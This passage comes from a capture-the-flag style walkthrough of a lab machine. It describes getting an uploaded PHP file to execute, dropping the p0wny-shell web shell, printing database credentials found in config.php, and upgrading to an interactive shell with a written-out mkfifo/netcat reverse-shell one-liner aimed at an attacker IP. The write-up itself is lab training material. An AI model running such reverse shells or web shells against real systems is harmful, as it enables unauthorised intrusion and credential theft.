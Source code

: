 ![image](https://github.com/user-attachments/assets/860a4723-a765-4e6c-a7c6-d661c6cd7f50)

So the file actually uploaded, but when I try to run any commands, the page just returns a blank white page to me. Lets try a full-fledged rev-shell, the one by PentestMonkey.

![image](https://github.com/user-attachments/assets/123b976d-cb65-48f1-a55b-4595ca1e9476)

![image](https://github.com/user-attachments/assets/7535b4b4-88e8-406b-81f5-e0c8091111d0)

Doesn't work either, but at least we know our file is being executed.

I eventually came across [p0wny-shell](https://github.com/flozz/p0wny-shell) which gives an extremely interesting web-shell, and works perfectly.

![image](https://github.com/user-attachments/assets/907d5af5-bc32-4a31-af1f-0ce8c58dc2fe)


## 3) Privilege Escalation
---
Now if we recall earlier, our port scans gave us that this was a Windows machine. However in our current situation, we're on:

![image](https://github.com/user-attachments/assets/5fcef843-4212-45cc-8c10-ccd3fed57468)

Time to look around and see what we can find and do.

First off, I was able to find some MySQL DB creds in config.php

![image](https://github.com/user-attachments/assets/81f23b09-6298-4ee5-9f8d-d1420ac1c6d0)

`root:my$qls3rv1c3!`

To be able to actually access the DB, we'll need to get a proper shell. Lets upgrade our shell.
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.10.14.14 5555 >/tmp/f
```

Once shell is caught, I like to run `export TERM=xterm` and `python3 -c 'import pty;pty.spawn("/bin/bash")'` to make sure my shell is all nice and cozy, and makes sure that there's proper I/O handling.

![image](https://github.com/user-attachments/assets/61892eb7-6d9d-4875-91ec-3bf03029a5f4)

![image](https://github.com/user-attachments/assets/8e6d92d6-eb57-4bf8-9078-16ea5fe0d360)

So we have 2 hashes now, obviously the 3rd belonging to our user. Lets try cracking, all though these are `bcrypt` hashes.

Admin's Hash:

![image](https://github.com/user-attachments/assets/d3713fc1-8d91-4b36-9b30-3156b82b6fee)

Patient's Hash:

![image](https://github.com/user-attachments/assets/4e126029-789c-4f44-bcb7-50ec7f7486fc)
